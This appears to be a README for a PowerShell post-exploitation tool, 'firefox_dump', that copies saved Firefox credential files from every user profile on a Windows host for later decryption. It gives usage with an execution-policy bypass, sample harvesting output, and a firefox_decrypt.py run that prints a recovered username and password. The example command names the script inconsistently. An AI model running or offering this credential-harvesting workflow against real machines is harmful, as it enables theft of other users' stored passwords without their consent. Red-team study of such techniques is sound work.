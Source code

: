 # firefox_dump
When trying to gather additional credentials from lets say an Administrator Jump Host, extracting sensitive Mozilla Firefox files is a great approach. Doing this manually is boring and time consuming, especially if there are hundreds of users under `C:\Users`. 

To simplify this I've made a simple PowerShell script, `firefox_dump.ps1`, that gathers all sensitive Mozilla Firefox information which can later be decrypted using [`firefox_decrypt.py`](https://github.com/unode/firefox_decrypt) or similar.

The script should be ran as a high privileged user to gain as much information as possible.

## Example Usage
```powershell
PS C:\tmp> powershell.exe -executionpolicy bypass .\firefox_extract.ps1
 ___    __   ___  ___  __       __              __
|__  | |__) |__  |__  /  \ \_/ |  \ |  |  |\/| |__)
|    | |  \ |___ |    \__/ / \ |__/ \__/  |  | |
                                      by: 0xPThree

[+] Extracting secrets from 'user1' to: C:\tmp\user1\ljftf853.default-release
[+] Extracting secrets from 'user1' to: C:\tmp\user1\skvrf23a.default
[+] Extracting secrets from 'user2' to: C:\tmp\user2\grg21h5s.default
[-] 'user3' doesn't have any saved passwords in Mozilla Firefox
```

```bash
┌──(void㉿void)-[/opt/firefox_decrypt]
└─$ ./firefox_decrypt.py /tmp/firefox-loot/user1            

Website:   http://localhost:8000
Username: 'dev-user'
Password: 'D3velopm3ntM@st3rK3y*!'
```
